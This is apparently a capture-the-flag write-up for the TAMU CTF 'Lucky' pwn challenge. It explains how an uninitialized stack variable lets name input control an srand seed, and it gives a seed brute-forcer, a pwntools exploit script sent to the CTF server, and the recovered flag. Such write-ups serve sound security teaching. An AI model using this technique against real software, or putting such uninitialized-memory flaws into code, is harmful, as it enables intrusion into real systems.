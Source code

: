 ```yaml
---
layout: post
title:  "[TAMU ctf] Lucky"
date:   "2022-04-19"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

In all of the challenges of this ctf the authors provide us also the sourcecode of the binary.
Here is the source code for this challenge

```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```

The probram will print the flag only if the rand will output some values.

The interesting part in this source code is in the function seed used to obtain a seed for the srand function.

```c
int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}
```

this function return the value of a variable that is not initialized and this could lead to undetermined behaviour of the program. 
The problem is that as we can see from gdb we can control what the lol variable contain. 

```c
void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}
```

The welcome function ask us 16 bytes that will be stored in a buffer and this if fine. The problem is that with this input we can control what the lol variable will contain.

Here I send in the buffer the string "ABCDEFGHIJKLMNO" (15bytes because fgets will read 15 bytes and put null char at the end of the buffer)

## image 1

In the seed finction we can see that the variable lol will contain the value 0x4f4e4d that is 'ONM'so we can control the seed value. 

## image 2

Now we need to find a seed value that will return 306291429, 442612432, 110107425 for the first three value. I wrote a little program in c in order to find this value.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    for(unsigned int i = 0; i<0xffffff;i++){
    	srand(i);
    	if(!(rand() == 306291429))continue;
    	if(!(rand() == 442612432))continue;
    	if(!(rand() == 110107425))continue;
	printf("%u", i);
    }
}
# output 5649426 == 0x563412
```

With this value found we have all in order to win this challenge.

This is the script

```python
from pwn import *

p = remote("tamuctf.com", 443, ssl=True, sni="lucky")

context.binary = elf = ELF('./lucky')
#p = elf.process()
#gdb.attach(p)

pyl = b'ABCDEFGHIJKL\x12\x34\x56'
p.sendlineafter(b'Enter your name: ', pyl)
p.interactive()

```

And this is the output:

```text
eurus@node-01-00:~/Scaricati/lucky$ python3 solver-template.py 
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode

Welcome, ABCDEFGHIJKL\x12V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```















